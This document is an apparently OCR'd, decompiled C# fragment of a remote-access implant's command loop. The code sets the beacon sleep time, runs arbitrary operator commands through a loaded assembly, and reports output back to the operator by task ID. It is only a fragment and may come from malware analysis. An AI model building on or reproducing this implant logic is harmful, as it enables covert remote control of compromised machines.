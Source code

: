 ```csharp
				else if (cmd.ToLower().StartsWith("beacon"))
				{
					Regex regex2 = new Regex("(?<=(beacon)\\s{1,})(?<t>[0-9]{1,9})(?<u>[h,m,s]{0,1})", RegexOptions.IgnoreCase | RegexOptions.Compiled);
					Match match2 = regex2.Match(text3);
					if (match2.Success)
					{
						num = Parse_Beacon_Time(match2.Groups["t"].Value, match2.Groups["u"].Value);
					}
					else
					{
						stringBuilder.AppendLine($"[X] Invalid time \"{text3}\"");
					}
					Exec("Beacon set", taskId, Key);
				}
				else
				{
					string text4 = rAsm($"run-exe Core.Program Core {cmd}");
				}
				stringBuilder.AppendLine(stringWriter.ToString());
				StringBuilder stringBuilder2 = stringWriter.GetStringBuilder();
				stringBuilder2.Remove(0, stringBuilder2.Length);
				if (stringBuilder.Length > 2)
				{
					Exec(stringBuilder.ToString(), taskId, Key);
				}
				stringBuilder.Length = 0;
			}
			end_IL_00f1:;
		}
		catch (NullReferenceException)
		{
		}
		catch (WebException)
		{
		}
		catch (Exception arg)
		{
			Exec($"Error: {stringBuilder.ToString()} {arg}", "Error", Key);
		}
		finally
		{
			stringBuilder.AppendLine(stringWriter.ToString());
			StringBuilder stringBuilder3 = stringWriter.GetStringBuilder();
			stringBuilder3.Remove(0, stringBuilder3.Length);
			if (stringBuilder.Length > 2)
			{
				Exec(stringBuilder.ToString(), "99999", Key);
			}
			stringBuilder.Length = 0;
		}
	}
}
```
